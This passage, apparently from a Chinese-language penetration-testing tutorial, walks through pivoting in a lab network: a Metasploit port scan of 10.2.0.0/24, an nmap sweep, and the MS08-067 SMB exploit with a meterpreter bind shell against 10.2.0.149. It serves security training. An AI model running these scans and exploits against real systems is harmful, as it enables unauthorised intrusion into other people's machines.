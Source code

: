 ```
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.2.0.0/24
set PORTS 139,445
set THREADS 50
run

```

端口扫描仪效率不高，扫描需要一些时间才能完成。您可以选择直接在 metasploit 中使用 Nmap 扫描仪。输入`nmap –sP 10.2.0.0/24`。一旦确定了带电系统，对目标执行扫描方法。在这里的例子中，我们的目标位于`10.2.0.149`。

以下屏幕截图显示了此扫描结果的示例：

![Pivoting](img/477-1_12_21.jpg)

我们现在有了一个目标，我们可以使用前面介绍的许多方法来对付它。出于我们在这里的目的，我们将看看是否可以使用著名的 MS08-067 服务服务器缓冲区溢出攻击目标。在 metasploit 窗口中，在后台设置会话并输入以下命令：

```
use exploit/windows/smb/ms08_067_netapi
set RHOST 10.2.0.149
set PAYLOAD windows/meterpreter/bind_tcp
exploit

```

如果一切顺利，你会看到机器上有一个外壳打开。确认后，输入`ipconfig`查看机器上的网络配置。从这里开始，这只是执行我们之前遵循的过程的问题，如果你找到另一台双机，那么你可以做另一个支点并继续。以下屏幕截图显示了一个结果示例：

![Pivoting](img/477-1_12_22.jpg)